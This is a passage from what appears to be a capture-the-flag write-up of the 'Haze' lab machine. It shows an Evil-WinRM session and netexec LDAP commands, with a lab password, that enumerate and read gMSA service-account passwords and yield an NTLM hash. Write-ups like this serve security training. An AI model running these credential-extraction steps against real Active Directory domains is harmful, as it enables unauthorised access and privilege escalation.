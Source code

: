 ```bash
*Evil-WinRM* PS C:\Users\mark.adams\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                         Attributes
=========================================== ================ =========================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
HAZE\gMSA_Managers                          Group            S-1-5-21-323145914-28650650-2368316563-1107 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
```

There is an interesting group which is gMSA_Mangers which hints that this user has permission on a group managed service accounts we could use netexec to know which service account is it
```bash
➜  Haze netexec ldap haze.htb -u mark.adams -p  Ld@p_Auth_Sp1unk@2k24 --gmsa    
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM: <no read permissions>                PrincipalsAllowedToReadPassword: Domain Admins
```  

We just need the read permission let's try to enabled it
![](/assets/posts/Haze/Haze-1.png)
and it works now we have the ntlm hash of this service account, we could enumerate ldap with the account
